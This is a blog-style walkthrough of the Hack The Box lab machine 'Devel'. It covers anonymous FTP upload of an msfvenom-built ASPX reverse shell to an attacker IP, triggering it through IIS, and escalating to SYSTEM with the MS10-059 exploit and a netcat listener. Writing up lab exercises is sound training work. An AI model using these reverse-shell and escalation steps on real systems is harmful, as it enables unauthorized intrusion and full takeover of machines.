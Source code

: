 ```yaml
---
layout: post
title: "HTB-Devel"
date: 2020-02-16 12:13:55 +0000
categories: HTB-Walkthrough
---
```


![devel](/assets/img/devel.png)

Hi, lets get stuck in...

Im settling on a good 'less intrusive' nmap command to start enumeration of a machine with...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.5 |tee -a dev.txt`

Often depending on the results, ill run `-sC` or `--script=vuln` either on specific ports, or the default range.

```

Nmap scan report for 10.10.10.5
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

In this case, its not really necessary, we can just manually test the target's ftp port to see if it will allow anonymous login.

`ftp 10.10.10.5` then use the username `anonymous` with any password like `aosdidhf`, and we got access.

A test to upload random text.txt file is successful, so we can potentially upload a reverse-shell of some sort to get a command shell on the target.

############################

The website on port 80 displays the Welcome page we found in the ftp directory...
The target is running an aspnet client, which means if we upload an evil.aspx file, we can browse to it on port 80 to trigger it.

So lets first use MSFvenom to craft an evil.aspx reverse-shell file...
`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.19 lport=443 -f aspx -o evil.aspx`

Next we `put` the file onto the target via the ftp service.

```

root@kali:~/HTB/prep/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 

```

in main ftp (root directory) `put evil.aspx`


Now just browse to `http://10.10.10.5/evil.aspx` to execute.

##################################

So we got a windows cli shell, and we need to escalate our privilages to get ntauthority/system to enable us to read root.txt in the Administrator's Desktop.

Now's a handy time to get familiarized with `windows-exploit-suggester.py`. 

First we need to do is run the command `systeminfo` then copy'n'paste the results onto our kali machine
into a text-file, in this case called sysinfo.txt.

```

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/1/2020, 5:13:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 720 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.546 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

```

Read the python program first for instructions ...

```

# USAGE
# 
# update the database
#
# $ ./windows-exploit-suggester.py --update
# [*] initiating...
# [*] successfully requested base url
# [*] scraped ms download url
# [+] writing to file 2014-06-06-mssb.xlsx
# [*] done
#
# install dependencies
#
# (install python-xlrd, $ pip install xlrd --upgrade)
#
# feed it "systeminfo" input, and point it to the microsoft database
#
# $ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

```

The result of following these instructions, is a list of potential methods of privilage escalation.

In this case we chose ms10-059 (chimichurri.exe)

Upload it again via ftp. Then transfer it to a place we can execute it.
I often create a directory in C: to work from (which I can remove later)
`mkdir c:\boo`

Before we execute the evil.exe, lets get a listener running on kali to catch the shell...
`nc -nlvp 999`

Then on the target run...
`c:\boo\evil.exe 10.10.14.19 999`


```

root@kali:~/HTB/retired/devel# nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system

```

From here it is trivial to navigate to the user and Admin Desktops to get the user.txt.txt and root.txt.txt files.
read them with the `type` command.
eg.`type root.txt.txt`


The scenario is a simple one, but still encountered 'in the wild', and the widows-exploit-suggester.py' is definately a handy tool to have in your armoury.

####################################################################

